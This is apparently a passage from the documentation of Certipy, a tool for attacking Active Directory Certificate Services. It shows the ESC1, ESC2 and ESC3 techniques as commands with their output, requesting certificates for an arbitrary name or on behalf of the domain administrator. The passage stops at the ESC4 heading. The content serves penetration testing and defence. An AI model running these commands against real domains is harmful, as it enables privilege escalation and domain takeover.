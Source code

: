 For ESC1, we can request a certificate based on the vulnerable certificate template and specify an arbitrary SAN with the `-alt` parameter.

```bash
$ certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'ESC1' -alt 'administrator@corp.local'
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 659
[*] Got certificate with UPN 'administrator@corp.local'
[*] Saved certificate and private key to 'administrator.pfx'
```

#### ESC2

ESC2 is when a certificate template can be used for any purpose. Since the certificate can be used for any purpose, it can be used for the same technique as with ESC3. See below.

#### ESC3

ESC3 is when a certificate template specifies the Certificate Request Agent EKU (Enrollment Agent). This EKU can be used to request certificates on behalf of other users.

First, we must request a certificate based on the vulnerable certificate template ESC3.

```bash
$ certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'ESC3'
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 665
[*] Got certificate with UPN 'john@corp.local'
[*] Saved certificate and private key to 'john.pfx'
```

We can then use the Certificate Request Agent certificate (`-pfx`) to request a certificate on behalf of other another user by specifying the `-on-behalf-of`. The `-on-behalf-of` parameter value must be in the form of `domain\user`, and not the FQDN of the domain, i.e. `corp` rather than `corp.local`.

```bash
$ certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'User' -on-behalf-of 'corp\administrator' -pfx 'john.pfx'
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 666
[*] Got certificate with UPN 'administrator@corp.local'
[*] Saved certificate and private key to 'administrator.pfx'
```

#### ESC4
